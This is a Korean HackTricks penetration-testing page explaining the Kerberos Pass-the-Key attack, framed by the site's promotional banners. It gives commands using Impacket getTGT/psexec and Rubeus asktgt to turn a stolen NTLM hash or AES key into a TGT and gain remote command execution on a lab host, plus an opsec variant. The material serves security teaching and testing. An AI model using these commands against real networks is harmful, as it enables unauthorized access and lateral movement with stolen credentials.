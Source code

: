 # 해시/키 전달하기

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요!</summary>

* **사이버 보안 회사**에서 일하시나요? **회사를 HackTricks에서 홍보**하고 싶으신가요? 혹은 **PEASS의 최신 버전에 액세스하거나 HackTricks를 PDF로 다운로드**하고 싶으신가요? [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인해보세요!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견해보세요, 저희의 독점 [**NFT 컬렉션**](https://opensea.io/collection/the-peass-family)
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 그룹**](https://discord.gg/hRep4RUj7f)이나 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**를 팔로우**하세요.
* **해킹 요령을 공유하고 싶다면 [hacktricks repo](https://github.com/carlospolop/hacktricks) 및 [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**로 PR을 제출하세요.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## 해시/키 전달하기 (PTK)

**해시/키 전달하기 (PTK)** 공격은 전통적인 NTLM 프로토콜이 제한되어 있고 Kerberos 인증이 우선하는 환경을 대상으로 설계되었습니다. 이 공격은 사용자의 NTLM 해시 또는 AES 키를 활용하여 Kerberos 티켓을 요청하여 네트워크 내의 리소스에 무단 액세스할 수 있게 합니다.

이 공격을 실행하기 위해 초기 단계는 대상 사용자 계정의 NTLM 해시 또는 비밀번호를 획득하는 것입니다. 이 정보를 확보한 후 계정에 대한 Ticket Granting Ticket (TGT)를 얻어 공격자가 사용자가 권한을 가진 서비스나 기기에 액세스할 수 있게 합니다.

이 프로세스는 다음 명령으로 시작할 수 있습니다:
```bash
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```
AES256이 필요한 시나리오의 경우, `-aesKey [AES key]` 옵션을 사용할 수 있습니다. 또한 획득한 티켓은 smbexec.py 또는 wmiexec.py와 같은 다양한 도구와 함께 사용될 수 있어 공격 범위를 확대할 수 있습니다.

_PyAsn1Error_ 또는 _KDC cannot find the name_과 같은 문제는 일반적으로 Impacket 라이브러리를 업데이트하거나 IP 주소 대신 호스트 이름을 사용하여 Kerberos KDC와의 호환성을 보장함으로써 해결됩니다.

Rubeus.exe를 사용한 대체 명령 시퀀스는 이 기술의 다른 측면을 보여줍니다:
```bash
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```
이 방법은 **Pass the Key** 방식을 반영하며, 인증 목적으로 티켓을 직접 사용하고 장악하는 데 초점을 맞춥니다. TGT 요청의 시작은 기본적으로 RC4-HMAC 사용을 나타내는 `4768: A Kerberos authentication ticket (TGT) was requested` 이벤트를 트리거합니다. 그러나 현대의 Windows 시스템은 AES256을 선호합니다.

운영 보안을 준수하고 AES256을 사용하려면 다음 명령을 적용할 수 있습니다:
```bash
.\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec
```
## 참고 자료

* [https://www.tarlogic.com/es/blog/como-atacar-kerberos/](https://www.tarlogic.com/es/blog/como-atacar-kerberos/)

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 제로부터 영웅이 되기까지 AWS 해킹을 배우세요</strong></summary>

* **사이버 보안 회사에서 일하시나요? 귀하의 회사가 HackTricks에서 광고되길 원하시나요? 또는 PEASS의 최신 버전에 액세스하거나 HackTricks를 PDF로 다운로드하고 싶으신가요? [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 저희의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* [**공식 PEASS & HackTricks 스왹**](https://peass.creator-spring.com)을 받으세요
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**를 팔로우하세요**.
* **[hacktricks repo](https://github.com/carlospolop/hacktricks) 및 [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)에 PR을 제출하여 해킹 트릭을 공유하세요**.

</details>
